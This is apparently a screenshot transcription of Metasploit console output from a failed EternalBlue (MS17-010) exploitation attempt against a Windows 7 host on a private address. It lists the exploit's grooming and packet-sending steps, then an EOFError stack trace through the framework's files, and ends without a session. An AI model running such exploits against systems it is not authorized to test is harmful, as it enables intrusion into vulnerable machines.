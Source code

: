 [-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[-] 192.168.23.12:445 - EOFError
[-] 192.168.23.12:445 - EOFError
[-] 192.168.23.12:445 - /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-core-0.1.15/lib/rex/io/stream.rb:224:in `get_once'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:413:in `block in smb1_get_response'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:412:in `times'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:412:in `smb1_get_response'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:251:in `smb_eternalblue'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:138:in `block in exploit'
/usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/activesupport-5.2.4.5/lib/active_support/core_ext/range/each.rb:9:in `each'
/usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/activesupport-5.2.4.5/lib/active_support/core_ext/range/each.rb:9:in `each'
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_eternalblue.rb:136:in `exploit'
/usr/share/metasploit-framework/lib/msf/core/exploit/remote/auto_check.rb:27:in `block in exploit'
/usr/share/metasploit-framework/lib/msf/core/exploit/remote/auto_check.rb:47:in `with_prepended_auto_check'
/usr/share/metasploit-framework/lib/msf/core/exploit/remote/auto_check.rb:26:in `exploit'
/usr/share/metasploit-framework/lib/msf/core/exploit_driver.rb:214:in `job_run_proc'
/usr/share/metasploit-framework/lib/msf/core/exploit_driver.rb:168:in `run'
/usr/share/metasploit-framework/lib/msf/base/simple/exploit.rb:144:in `exploit_simple'
/usr/share/metasploit-framework/lib/msf/base/simple/exploit.rb:168:in `exploit_simple'
/usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/exploit.rb:56:in `exploit_single'
/usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/exploit.rb:213:in `cmd_exploit'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:525:in `run_command'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:476:in `block in run_single'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:470:in `each'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:470:in `run_single'
/usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:158:in `run'
/usr/share/metasploit-framework/lib/metasploit/framework/command/console.rb:48:in `start'
/usr/share/metasploit-framework/lib/metasploit/framework/command/base.rb:82:in `start'
/usr/bin/msfconsole:23:in `<main>'
[*] Exploit completed, but no session was created.
